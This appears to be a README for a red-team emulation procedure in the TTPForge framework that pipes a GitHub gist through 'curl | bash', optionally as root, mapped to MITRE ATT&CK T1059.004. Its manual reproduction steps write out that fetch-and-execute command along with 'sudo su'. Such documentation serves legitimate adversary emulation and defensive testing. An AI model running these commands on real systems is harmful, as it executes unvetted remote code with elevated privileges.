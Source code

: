 # Arbitrary Script Execution Using Curl To Pipe

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP enables the execution of an arbitrary bash script from a GitHub gist.

## Arguments

- **escalate_privileges**: Whether to escalate privileges before running the
  script

  Default: false

- **download_link**: The download link for the GitHub gist containing the bash
  script

  Default: <https://gist.githubusercontent.com/l50/2dd5d552c0336e6e8fd7704fd0d194de/raw/0cd2d4d0be1cac1899fc45ff23df8a1ed9ea0409/gistfile1.txt>

## Requirements

1. The executor must have access to the specified GitHub gist and the ability
   to execute bash scripts.

## Examples

You can run the TTP using the following example (after updating the arguments):

```bash
ttpforge run forgearmory//exectution/arbitrary-script-execution-using-curl-to-pipe/arbitrary-script-execution-using-curl-to-pipe.yaml \
  --arg escalate_privileges=true
```

## Steps

1. **ensure-root-user-if-required**: This step checks if the TTP needs to be
   run as root, and exits with an error message if it is not being run as root.
1. **download-and-run-script**: This step downloads the bash script from the
   specified GitHub gist and executes it. If the script runs successfully, the
   TTP exits with a success message. Otherwise, it exits with a failure message.

## Manual Reproduction Steps

```bash
# Escalate privileges to root (optional - depends on what you're running)
sudo su

DOWNLOAD_LINK=https://gist.githubusercontent.com/l50/2dd5d552c0336e6e8fd7704fd0d194de/raw/0cd2d4d0be1cac1899fc45ff23df8a1ed9ea0409/gistfile1.txt

# Grab arbitrary bash script from a github gist and run it
curl -sL "${DOWNLOAD_LINK}" | bash
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0002 Execution
- **Techniques**:
  - T1059 Command and Scripting Interpreter
- **Subtechniques**:
  - T1059.004 Command and Scripting Interpreter Unix Shell
